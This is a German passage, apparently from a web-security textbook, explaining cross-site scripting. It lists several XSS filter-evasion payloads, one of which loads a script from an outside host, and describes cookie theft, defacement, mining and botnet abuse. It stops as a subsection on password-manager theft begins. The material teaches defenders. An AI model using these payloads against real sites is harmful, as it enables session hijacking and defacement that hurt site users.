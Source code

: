 Ein Problem an XSS-Angriffsmustern ist, dass diese sehr stark variieren können und daher schwer zu filtern sind; anbei mehrere XSS-Muster:

\begin{verbatim}
<script>alert(1);</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

<IMG SRC= onmouseover="alert('xxs')">
<IMG SRC="jav    ascript:alert('XSS');">
<BGSOUND SRC="javascript:alert('XSS');">
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
\end{verbatim}

Eine gute Quelle für weitere XSS-Beispiele ist das OWASP XSS Filter Evasion Cheat Sheet\footnote{\url{https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet}}.

Mittels des eingeschleusten JavaScript-Code versucht der Angreifer nun, negativen Einfluss auf einen Benutzer zu nehmen. Ein gutes Beispiel wäre der Versuch, das Session-Cookie des aktuellen Benutzers (des Opfers) auszulesen und an einen externen Server zu übermitteln. Auf diese Weise würde ein Identitätsdiebstal durchgeführt werden. Ein weiteres Beispiel wäre \textit{Virtual Defacement}: bei diesem wird mittels JavaScript die dargestellt Webseite verändert und dadurch ein Defacement durchgeführt. Bösartig an diesem ist, dass die direkten Inhalte (Webseiten im Filesystem des Webservers) korrekt aussehen. In den letzten Jahren wurden XSS-Injections auch für Bitcoin/Crypto-Mining missbraucht. In diesem Fall wird jedes Opfer welches eine Webseite besucht kurzfristig Teil des Mining-Kollektivs. Last but not least kann XSS verwendet werden, um den Browser des Opfers Teil eines DDoS-Botnets zu machen. Ein berühmtes Beispiel hierfür ist die Low-Orbit Ion Canon die z.B. auch gerne von Anonymous verwendet wurde.

\subsubsection{Stehlen von Daten aus einem Passwortmanager}

Die meisten modernen Webbrowser bieten eine Form eines Passwortmanagers an. Nach einem durchgeführtem Login werden bei einem erneuten Besuch der Seite die Login-Credentials automatisch vom Webbrowser in das Formular eingetragen.

